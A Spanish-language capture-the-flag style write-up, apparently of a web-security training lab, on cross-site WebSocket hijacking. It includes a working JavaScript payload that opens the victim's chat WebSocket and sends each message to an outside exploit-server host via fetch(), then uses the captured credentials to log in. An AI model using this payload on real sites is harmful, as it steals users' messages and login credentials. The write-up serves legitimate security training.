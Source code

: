 Este laboratorio presenta un escenario en el que un canal WebSocket se encuentra mal protegido, permitiendo que un atacante pueda establecer una conexión maliciosa desde otro dominio y extraer información sensible.

La aplicación incorpora un sistema de chat que utiliza WebSockets para gestionar la comunicación. Analizando la interacción con el servidor, identificamos que no existen medidas de protección contra peticiones cruzadas (como tokens CSRF o validación de origen), lo que abre la puerta a un ataque de tipo cross-site WebSocket hijacking.

El atacante construye un payload malicioso en una página controlada, capaz de establecer la conexión WebSocket directamente con el servidor del chat. Desde ahí, simula el comportamiento legítimo del cliente, solicitando el historial de conversación. Una vez recuperados los mensajes, estos se reenvían a un servidor externo (como Burp Collaborator) para su análisis.

El laboratorio se resuelve cuando logramos obtener, entre los mensajes de la víctima, sus credenciales de acceso, y las usamos para iniciar sesión en su cuenta. Esto demuestra cómo una falta de validaciones en el establecimiento de conexiones WebSocket puede comprometer la seguridad de los usuarios.

Solucion
bueno vemos que de igual forma tenemos un chat live y un exploit server el cual nos ayudaria para poder pasar toda la infomacion de este chat
para ello vamos a crear un script en JS el cual nos va a facilitar la entrada
payload (<script>
    var ws = new WebSocket("https://0acc0036041407c480cd039c00110057.web-security-academy.net/chat");
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch("https://exploit-0a9b00a20482072d802202ec01a00045.exploit-server.net/?data=" + btoa(event.data));
    };
</script>)

Este script es un **payload de exfiltración de datos**:

- Escucha mensajes de un chat o sistema WebSocket.
    
- Los envía a un servidor controlado por el atacante.
    
- Es un ejemplo de **XSS (Cross-Site Scripting) combinado con exfiltración de datos en tiempo real**.
    

💡 **En resumen:** este script roba información que fluye por la conexión WebSocket y la envía a otro servidor externo. Es el tipo de cosa que se usa en pruebas de seguridad (o ataques) para **capturar información confidencial en tiempo real**.

lo copiamos y pegamos en nuestro exploit
![[Pasted image 20250821001949.png]]
vemos los logs
![[Pasted image 20250821002012.png]]
tenemos info lo vamos a copiar y pegar en un archivo
![[Pasted image 20250821002231.png]]
y esto es lo que miramos
![[Pasted image 20250821002321.png]]
ya solo nos logeamos
![[Pasted image 20250821002414.png]]
